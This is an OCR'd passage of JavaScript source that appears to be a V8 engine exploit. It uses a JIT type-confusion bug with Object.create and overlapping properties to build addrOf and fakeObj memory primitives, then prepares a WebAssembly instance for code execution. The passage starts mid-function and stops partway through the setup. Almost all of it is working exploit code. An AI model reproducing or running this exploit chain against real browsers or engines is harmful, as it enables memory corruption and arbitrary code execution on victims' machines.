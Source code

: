 ```bash
    obj.a;
    this.Object.create(obj);
    return obj.b${p1}.x1;
  }
`);


  let values = [];
  values[p1] = { x1: 1.1, x2: 1.2 };
  values[p2] = { y: obj };

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    if (res != 1.1) {
      print(`[+] Object Address: ${Int64.fromDouble(res).toString()}`);
      return res;
    }
  }
  throw "[!] AddrOf Primitive Failed"
}

function fakeObj(obj, addr) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    let orig = obj.b${p1}.x2;
    obj.b${p1}.x2 = ${addr};
    return orig;
  }
`);

  let values = [];
  let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;

  for (let i = 0; i < 10000; i++) {
    o.x2 = 1.2;
    let res = vuln(getObj(values));
    if (res != 1.2) {
      return res;
    }
  }
  throw "[!] fakeObj Primitive Failed"
}

var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
print("[+] check whether vulnerability exists");
check_vul();
print("[+] Finding Overlapping Properties...");
findOverlapping();
print(`[+] Properties b${p1} and b${p2} overlap!`);
let mem = new ArrayBuffer(1024);
let dv = new DataView(mem);
give_me_a_clean_newspace();
```